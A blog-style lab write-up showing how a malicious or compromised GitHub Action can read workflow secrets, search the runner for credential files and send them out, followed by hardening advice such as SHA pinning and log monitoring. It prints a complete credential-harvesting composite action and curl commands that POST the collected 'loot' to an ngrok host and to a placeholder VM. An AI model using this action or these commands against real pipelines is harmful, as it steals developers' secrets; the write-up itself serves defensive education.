# How a Trusted GitHub Action Can Steal Your Secrets

> *"The most dangerous attacks don't look like attacks at all."*

## Introduction

Most developers lose sleep over the obvious threats.

A stolen Personal Access Token. A compromised account. Credentials accidentally pushed to a public repository.

These are real risks. They deserve attention.

But during this lab, We are going to look for something far more unsettling — something that doesn't trigger alerts, doesn't require a breach, and doesn't leave obvious fingerprints.

**A completely legitimate GitHub Action can access your repository secrets, collect workflow metadata, enumerate sensitive files, and execute arbitrary code inside your runner.**

And that's before we even discuss third-party actions.

So I built a lab to answer one question:

> *How much trust do we actually place in GitHub Actions — and what happens when that trust is abused?*

What I found changed how I think about CI/CD pipelines entirely.

## Stage 1 — The Trust Model: Inside GitHub Actions

Most developers interact with GitHub Actions like this:

```yaml
steps:
  - uses: actions/checkout@v4
  - run: npm test
```

It feels like automation. Clean, simple, harmless.

But under the hood, something more significant is happening.

Every workflow you trigger executes real code on a real machine — a **GitHub-hosted runner**. That runner isn't a sandboxed toy environment. It's a fully capable Linux (or Windows) virtual machine with:

- Full filesystem access
- Unrestricted network access
- Access to environment variables
- Access to workflow secrets
- The ability to download and execute arbitrary code

The moment I truly internalized this, I stopped thinking about GitHub Actions as *automation* and started thinking about them as **remote code execution with guardrails**.

The guardrails are good. But they're not perfect.


### 📊 Visual 1 — The Runner's Attack Surface



## Stage 2 — Setting Up The Experiment

I kept the setup deliberately minimal.

```
Repository: github-action-lab
```

One repository. One basic workflow:

```yaml
name: CI Test

on:
  push:

jobs:
  build:
    runs-on: ubuntu-latest

    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Print env
        run: env
```

No fancy configuration. No complex pipelines.

Just a clean environment where I could observe exactly what a workflow could and couldn't do — and then start pushing those boundaries.




## Stage 3 — Secrets Aren't Secret: Accessing Workflow Credentials

This was the first question I needed to answer.

I created a fake AWS key and stored it as a repository secret:

```
AWS_ACCESS_KEY_ID = AKIAFAKEKEY123
```

Then I exposed it to the workflow the standard way:

```yaml
env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
```

Inside the runner, I ran:

```bash
echo $AWS_ACCESS_KEY_ID
```



The workflow accessed the secret immediately. No errors. No warnings.

GitHub's log showed this:

```
***
```

And here's where an important distinction lives — one that most developers miss entirely.

**GitHub's secret masking prevents accidental disclosure in logs.**

It does not prevent the secret from being used.

The value exists in memory. The workflow can read it, pass it to another process, encode it, or send it over the network. The asterisks in the log are a courtesy, not a lock.


### 📊 Visual 2 — Why Log Masking Isn't Enough






## Stage 4 — Reconnaissance: The Leaky Runner

With secrets confirmed accessible, I turned my attention to what else the runner exposes by default.

Using nothing but built-in environment variables — no API calls, no special permissions — I collected:

```bash
echo "Repo=$GITHUB_REPOSITORY"
echo "Actor=$GITHUB_ACTOR"
echo "Workflow=$GITHUB_WORKFLOW"
echo "Runner=$RUNNER_NAME"
echo "OS=$RUNNER_OS"
```

Output:

```
Repo=anish833/github-action-lab
Actor=anish833
Workflow=CI Test
Runner=GitHub Actions 1000000743
OS=Linux
```

Five lines of bash. Zero additional permissions required.

This is reconnaissance data. Repository identity, triggering user, infrastructure details — all freely available to any code running inside the workflow.


### 📊 Visual 3 — Default Exposures: What's Available to All






## Stage 5 — File System Enumeration: The Credential Goldmine

Modern developer-targeting malware doesn't stop at environment variables.

It goes looking for credentials that developers store locally — files that might end up on a self-hosted runner, a developer's machine used as a runner, or a shared build environment.

The targets are predictable:

- `.env` files containing API keys
- `id_rsa` SSH private keys
- `.pem` certificate files
- `.npmrc` files containing npm tokens
- Kubernetes config files
- AWS credential files

So I tested what the runner could find:

```bash
find ~ -name ".env"
find ~ -name "id_rsa"
find ~ -name "*.pem"
find ~ -name "*.npmrc"
find ~ -name "kubeconfig"
```

The GitHub-hosted runner was clean — as expected for an ephemeral VM.

But the exercise revealed something important: **the code running in your workflow has the same filesystem visibility as any process running on that machine.**

On a self-hosted runner — a developer's laptop, a shared build server, a persistent VM — this search would be far more interesting.


### 📊 Visual 4 — Where Credentials Hide on the Runner

```
Runner Filesystem
│
├── ~/.aws/credentials          ← AWS keys
├── ~/.ssh/id_rsa               ← SSH private key
├── ~/.npmrc                    ← npm auth token
├── ~/.kube/config              ← Kubernetes access
├── **/.env                     ← App secrets
└── **/*.pem                    ← Certificates
```




## Stage 6 — Data Exfiltration: From Secrets to Stolen Assets

At this point I had everything needed to demonstrate the collection phase of a real attack.

I assembled the gathered data into a single file and used curl to redirect to my vm:

```bash
echo "Repo=$GITHUB_REPOSITORY" > loot.txt
echo "Actor=$GITHUB_ACTOR" >> loot.txt
echo "Workflow=$GITHUB_WORKFLOW" >> loot.txt
echo "Runner=$RUNNER_NAME" >> loot.txt
echo "AWS=$AWS_ACCESS_KEY_ID" >> loot.txt
```

```bash
curl -X POST https://MYVMIP \
            --data-binary @loot.txt
```

Result:

```
Repo=anish833/github-action-lab
Actor=anish833
Workflow=CI Test
Runner=GitHub Actions 1000000743
AWS=AKIAFAKEKEY123
```

One file. Everything an attacker needs to pivot further.


### 📊 Visual 5 — How Data Gets Harvested and Exfiltrated

```
┌──────────────────────────────────────────┐
│              loot.txt                    │
├──────────────────────────────────────────┤
│  Repo=anish833/github-action-lab         │
│  Actor=anish833                          │
│  Workflow=CI Test                        │
│  Runner=GitHub Actions 1000000743        │
│  AWS=AKIAFAKEKEY123                      │
└──────────────────────────────────────────┘
         Collected in a single workflow run
         No special permissions required
         No alerts triggered
```




## Stage 7 — Obfuscation: Encoding The Loot

Many real-world malware families don't immediately transmit collected data. They stage it first — encoding or compressing it to avoid simple pattern detection.

For the lab, I used Base64 encoding:

```bash
base64 loot.txt > encoded.txt
cat encoded.txt
```

Output:

```
UmVwbz1hbmlzaDgzMy9naXRodWItYWN0aW9uLWxhYgpBY3Rvcj1hbmlzaDgzMw==
```

Nothing sophisticated. The point isn't the technique — it's the principle.

Data can be packaged, obfuscated, and prepared for exfiltration entirely within a normal-looking workflow run.


### 📊 Visual 6 — Evasion Through Encoding






## Stage 8 — The Cross-Repository Attack Vector

Up until this point, everything lived inside the workflow file.

That means the repository owner could see every line of code. A security review would catch it. A pull request audit would flag it.

**But real supply-chain attacks don't work that way.**

They don't modify your workflow. They don't touch your repository.

Instead, they abuse something far more subtle: **trust relationships**.

So I created a second repository:

```
github-action-lab-action
```

This repository contained a custom GitHub Action — code that could be called from any other workflow.


### 📊 Visual 7 — Attacking Across Repository Boundaries






## Stage 9 — Breaking The Trust Chain: Third-Party Actions

I started with an innocent action. The victim workflow called it:

```yaml
uses: anish833/github-action-lab-action@v1
```

The action simply ran:

```bash
echo "Action Executed Successfully"
```

The workflow passed. Everything looked normal. No warnings. No red flags.

Then I updated the action to include the collection logic.

The victim workflow didn't change. Not a single character.

But now when it ran, the action could access:

```
GITHUB_REPOSITORY  ✅
GITHUB_ACTOR       ✅
AWS_ACCESS_KEY_ID  ✅
```

This is the critical insight that makes supply-chain attacks so dangerous:

```bash
name: "Lab Action"
description: "Collects workflow metadata for analysis in a controlled lab environment"

runs:
  using: "composite"

  steps:
    - name: Print environment
      shell: bash
      run: env

    - name: Access secret
      shell: bash
      run: |
        echo "$AWS_ACCESS_KEY_ID"

    - name: Discover files
      shell: bash
      run: |
        find ~ -name ".env"
        find ~ -name "id_rsa"
        find ~ -name "*.pem"
        find ~ -name "*.kube*"
        find ~ -name "credentials"
        find ~ -name "*.npmrc"

    - name: Collect runner info
      shell: bash
      run: |
        echo "Repo=$GITHUB_REPOSITORY" > loot.txt
        echo "Actor=$GITHUB_ACTOR" >> loot.txt
        echo "Workflow=$GITHUB_WORKFLOW" >> loot.txt
        echo "Runner=$RUNNER_NAME" >> loot.txt
        echo "OS=$RUNNER_OS" >> loot.txt

    - name: Collect secret
      shell: bash
      run: |
        echo "AWS_KEY=$AWS_ACCESS_KEY_ID" >> loot.txt

    - name: Collect file results
      shell: bash
      run: |
        echo "" >> loot.txt
        echo "[FILES]" >> loot.txt

        find ~ -name ".env" >> loot.txt
        find ~ -name "id_rsa" >> loot.txt
        find ~ -name "credentials" >> loot.txt

    - name: Gather metadata
      shell: bash
      run: |
        echo "" >> loot.txt
        echo "[METADATA]" >> loot.txt

        echo "SHA=$GITHUB_SHA" >> loot.txt
        echo "REF=$GITHUB_REF" >> loot.txt
        echo "JOB=$GITHUB_JOB" >> loot.txt
        echo "WORKSPACE=$GITHUB_WORKSPACE" >> loot.txt

    - name: Encode results
      shell: bash
      run: |
        base64 loot.txt > encoded.txt

    - name: Display encoded output
      shell: bash
      run: |
        cat encoded.txt

    - name: Simulated exfil 
      shell: bash
      run: | 
        curl -X POST https://6380-122-183-38-123.ngrok-free.app \ --data-binary @encoded.txt
```

> **Third-party actions inherit the full trust and permissions of the workflow that executes them.**

The action doesn't need to live in your repository. It doesn't need access to your GitHub settings. It doesn't need to be reviewed by your team.

It simply inherits everything from the workflow the moment it's called.


### 📊 Visual 8 — Where Trust Breaks in the Action Chain






## Stage 10 — When Actions Become Weapons: A Real Attack

Now scale this up.

Imagine a popular GitHub Action — something used by thousands of repositories. A testing utility. A deployment helper. A code quality tool.

```yaml
# Used across 10,000 repositories
uses: popular-org/useful-action@v1
```

The maintainer's account gets compromised. Or a malicious pull request slips through. Or the maintainer themselves turns malicious.

The action's code changes.

And here's what doesn't happen:

- No pull requests appear in your repository
- No workflow files get modified
- No alerts fire in your security tooling
- No code review is triggered

Here's what does happen:

- Every repository using that action executes the new code on next run
- Every secret passed to that workflow is now accessible
- Every runner environment is now exposed


### 📊 Visual 9 — How Supply-Chain Attacks Propagate



## Stage 11 — The Dangerous Default: Tag-Based Version Control

Most developers reference actions using version tags:

```yaml
uses: some-action@v1
```

This feels like version pinning. It feels safe.

It isn't.

What you're actually trusting is: **whatever code currently sits behind that tag.**

Tags in Git are mutable. A maintainer — or an attacker who has compromised a maintainer — can move a tag to point to entirely different code. Your workflow reference doesn't change. Your pipeline doesn't change. But the code that executes does.

The safer approach is pinning to a specific commit SHA:

```yaml
uses: some-action@7d4f2e9c3a1b8f2e4d6c9a0b3e5f7d2a1c4b8e9f
```

Now the exact code being executed is cryptographically fixed. No silent upgrades. No moving targets. No surprises.


### 📊 Visual 10 — Why Pinning by Tag is a False Sense of Security



### Protecting Your CI/CD Pipeline — Practical Defences Against Supply Chain Attacks

The attack surface described in this blog is real — but it is also defensible. The goal is to reduce trust, increase visibility, and make every dependency and action explicitly verifiable.

#### 1. Pin Actions to Commit SHAs (Not Tags)

Tags like `@v1` or `@main` are mutable and can change without warning. A compromised action or maintainer can silently alter what your pipeline runs.

Always pin to a full commit SHA:

```yaml
# ❌ Unsafe: mutable tag
uses: actions/checkout@v4

# ✅ Safe: immutable commit reference
uses: actions/checkout@<commit-sha>
```

This ensures the exact code executed in your pipeline cannot change without your approval.

#### 2. Prefer Immutable or Versioned Releases

Where available, use explicit versioned releases instead of floating tags:

```yaml
# ❌ Floating major version
uses: org/action@v6

# ✅ Fixed release version
uses: org/action@v6.0.1
```

This reduces the risk of unexpected updates while keeping readability.

#### 3. Delay Adoption of New Releases

Don’t be the first to adopt new versions. Many supply chain attacks are discovered shortly after release.

Introduce a delay (e.g., 72 hours–7 days) before consuming new action or package versions. Combine this with controlled Dependabot updates to reduce exposure to freshly compromised releases.

#### 4. Treat Lock Files as Security Controls

Lock files ensure deterministic dependency resolution and prevent silent upgrades.

Best practices:

* Always commit lock files
* Use `npm ci` in CI instead of `npm install`
* Review lock file changes carefully in PRs

Unexpected changes in lock files should be treated as security signals, not routine updates.

#### 5. Enable Dependabot Alerts

Dependabot helps detect:

* Known vulnerabilities in dependencies
* Increasingly, malicious packages (beta coverage in npm ecosystem)

Enable both vulnerability and security updates, but avoid fully automatic upgrades for non-patch changes.

#### 6. Validate What Actually Gets Deployed (SBOM + CSPM)

Your pipeline doesn’t just build code — it ships artifacts.

Use SBOMs and CSPM tools to:

* Compare deployed dependencies vs expected versions
* Detect dependency drift
* Flag unexpected packages in runtime environments

This bridges the gap between build-time and production reality.

#### 7. Monitor CI/CD Logs in Your SIEM

CI logs contain valuable security signals. Forward them into a SIEM to detect anomalies such as:

* Unexpected outbound network calls
* New or unusual dependencies
* Sudden changes in lock files
* Action version or SHA mismatches
* Suspicious secret access patterns

